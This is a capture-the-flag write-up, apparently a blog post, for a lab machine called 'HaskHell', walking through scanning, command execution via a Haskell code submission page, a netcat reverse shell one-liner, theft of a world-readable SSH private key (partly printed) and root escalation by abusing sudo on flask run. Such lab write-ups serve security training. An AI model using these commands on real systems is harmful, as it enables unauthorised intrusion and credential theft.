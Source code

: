 ```yaml
---
layout: post
date: 2021-8-26 -0500
title: HaskHell
author: Devang-Solanki
---
```


Room Description : Teach your CS professor that his PhD isn't in security.

lets begin by running Nmap scan ` sudo nmap -sS -A <IP> -v -oN scan `

```console
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 1d:f3:53:f7:6d:5b:a1:d4:84:51:0d:dd:66:40:4d:90 (RSA)
|   256 26:7c:bd:33:8f:bf:09:ac:9e:e3:d3:0a:c3:34:bc:14 (ECDSA)
|_  256 d5:fb:55:a0:fd:e8:e1:ab:9e:46:af:b8:71:90:00:26 (ED25519)
5001/tcp open  http    Gunicorn 19.7.1
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
|_http-server-header: gunicorn/19.7.1
|_http-title: Homepage
```

We have discovered a webserver running on port 5001, which seems to hosted by a professor.

![](https://user-images.githubusercontent.com/75718583/130963432-ab921629-ac32-4c43-83a5-db48a40b6af0.png)

On exploring the webiste there is a link for uploading homework that redirect to http://<IP>/upload which dose not seems to works.

lets run dirsearch for discovering hidden directories or files.

```console
dirsearch -u http://10.10.153.185:5001/ --simple-report=web_dir
```
```console
  _|. _ _  _  _  _ _|_    v0.4.1                                                                     
 (_||| _) (/_(_|| (_| )                                                                              
                                                                                                     
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10848

Error Log: /home/kali/Desktop/Tools/dirsearch/logs/errors-21-08-26_17-24-56.log

Target: http://10.10.153.185:5001/                                                                   
                                                                                                     
Output File: /home/kali/Desktop/Tools/dirsearch/reports/10.10.153.185/_21-08-26_17-24-57.txt

[17:24:57] Starting: 
[17:25:03] 200 -  131B  - /uploads/affwp-debug.log       
[17:28:07] 200 -  237B  - /submit                                                        
[17:28:45] 500 -  291B  - /uploads/dump.sql                                                     

Task Completed                                                                                       
``` 
On visiting /submit page we can find a submit button. We can submit our haskell code and run arbitary comands on the server.

![image](https://user-images.githubusercontent.com/75718583/130962994-6d9768d9-47c5-4c5e-9108-dbe5bcc90695.png)

lets create a revshell

```haskell
module Main where

import System.Process

main = callCommand "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc <Your IP> 4444 >/tmp/f"
```
Uploading this script we get our revershell

```console
┌──(kali㉿kali)-[~/Desktop/husky]
└─$ nc -lnvp 4444                                                                             
listening on [any] 4444 ...
connect to [10.8.167.134] from (UNKNOWN) [10.10.150.235] 45040
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(flask) gid=1001(flask) groups=1001(flask)
```
lets Spawn a stable shell
```console
$ python -c 'import pty; pty.spawn("/bin/bash")'
flask@haskhell:~$ ls
ls
app.py  app.pyc  __pycache__  uploads
```
On enumerating the machine I'have found 2 user prof & haskell, in prof's home folder there was user.txt which contains user flag.

```console
flask@haskhell:/home/prof$ ls -al
ls -al
total 44
drwxr-xr-x 7 prof prof 4096 May 27  2020 .
drwxr-xr-x 5 root root 4096 May 27  2020 ..
-rw-r--r-- 1 prof prof  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 prof prof 3771 Apr  4  2018 .bashrc
drwx------ 2 prof prof 4096 May 27  2020 .cache
drwx------ 4 prof prof 4096 May 27  2020 .gnupg
drwxrwxr-x 3 prof prof 4096 May 27  2020 .local
-rw-r--r-- 1 prof prof  807 Apr  4  2018 .profile
drwxrwxr-x 2 prof prof 4096 May 27  2020 __pycache__
drwxr-xr-x 2 prof prof 4096 May 27  2020 .ssh
-rw-r--r-- 1 root root   26 May 27  2020 user.txt

```
```console
flask@haskhell:/home/prof$ cat us 
cat user.txt 
flag{<secret>}
```
Surprisingly .ssh folder was accessible by anyone on visiting .ssh we found ssh keys for the user prof.
```console
cd .ssh
cd .ssh
flask@haskhell:/home/prof/.ssh$ ls -al
ls -al
total 20
drwxr-xr-x 2 prof prof 4096 May 27  2020 .
drwxr-xr-x 7 prof prof 4096 May 27  2020 ..
-rw-rw-r-- 1 prof prof  395 May 27  2020 authorized_keys
-rw-r--r-- 1 prof prof 1679 May 27  2020 id_rsa
-rw-r--r-- 1 prof prof  395 May 27  2020 id_rsa.pub
flask@haskhell:/home/prof/.ssh$ cat id_rsa
cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA068E6x8/vMcUcitx9zXoWsF8WjmBB04VgGklNQCSEHtzA9cr
94rYpUPcxxxYyw/dAii0W6srQuRCAbQxO5Di+tv9aWXmBGMEt0/3tOE7D09RhZGQ
.........................................
-----END RSA PRIVATE KEY-----
```
  
Lets copy this key to our machine and ssh into the user prof another great thing is that this keys is not even password protected.
```console
┌──(kali㉿kali)-[~/Desktop/husky]
└─$ chmod 600 id_rsa                                                                      
                                                                                                     
┌──(kali㉿kali)-[~/Desktop/husky]
└─$ ssh -i id_rsa prof@10.10.150.235
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-101-generic x86_64)

  
```  
On checking privileges for user prof we find that he can run `/usr/bin/flask run` with root privileges.

For exploiting this we need to create a python script for spawing a root shell
```python
#!/usr/bin/python
import os
os.system("/bin/bash")
```
Set the variable to our newly created file

```console
export FLASK_APP=/home/prof/bash.py
```

Run `sudo /usr/bin/flask run`
```console
prof@haskhell:~$ sudo /usr/bin/flask run
root@haskhell:~# ls
app.py  __pycache__  rev.sh  user.txt
```
Got the root.txt

```console
root@haskhell:/root# cat root.txt 
flag{<secret>}
```
